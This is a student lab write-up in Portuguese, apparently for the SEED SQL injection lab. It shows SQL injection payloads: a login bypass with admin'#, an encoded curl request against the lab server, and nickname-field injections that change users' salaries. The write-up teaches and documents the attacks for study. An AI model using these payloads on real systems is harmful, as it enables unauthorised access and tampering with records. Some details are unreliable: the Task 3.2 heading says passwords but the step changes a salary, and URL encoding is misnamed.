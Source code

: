 ### *Task 1: Get Familiar with SQL Statements*

Para obter a informação do utilizador Alice executamos a seguinte query:

```sql
SELECT * FROM credential WHERE Name = 'Alice';
```
e obtivémos o seguinte resultado:
![Informação do utilizador Alice](src/task1_log8_9.png)
### *Task 2: SQL Injection Attack on SELECT Statement*

#### *Task 2.1: SQL Injection Attack from webpage.*
Para listar a informação sobre os utilizadores, submetemos os seguintes dados:

USERNAME: admin'#
PASSWORD:

E obtivémos o seguinte resultado:
![Informação sobre os utilizadores](src/task2a_log8.png)

#### *Task 2.2: SQL Injection Attack from command line.*

Para listar a informação sobre os utilizadores a partir do terminal, executamos o seguinte comando: 

```sh
curl 'www.seed-server.com/unsafe_home.php?username=Admin%27;%23&Password=a'
````
Como o terminal não permite usar carateres especiais (como, por exemplo '#') tivemos de usar a *tabular format* correspondente ("''" -> %27 ; "#" -> %23).

E obtivémos o seguinte resultado:

![Informação sobre os utilizadores](src/task2b_log8.png)

#### *Task 2.3: Append a new SQL statement.*

A injeção de multi statements no SQL não é permitida pelo PHP, pois a sua extensão de 
mySql não permite queries múltiplas numa única string. Esta limitação pode ser contornada usando multiquery().

#### *Task 3.1: Modify your own salary.*

Para alterar o salário da Alice, entramos na conta da Alice, selecionamos o *Edit Profile* e submetemos o seguinte dados no nickname:

```php
' , salary=500 where name='Alice';#
```

![Alteração do salário da Alice](src/task3a_log8.png)


#### *Task 3.2: Modify other people’ password.*

Para alterar o salário da Boby, entramos na conta da Alice , selecionamos o *Edit Profile* e submetemos o seguinte dados no nickname:

```php
' , salary=1 where name='Boby';#
```

![Alteração do salário do Boby](src/task3b_log8.png)
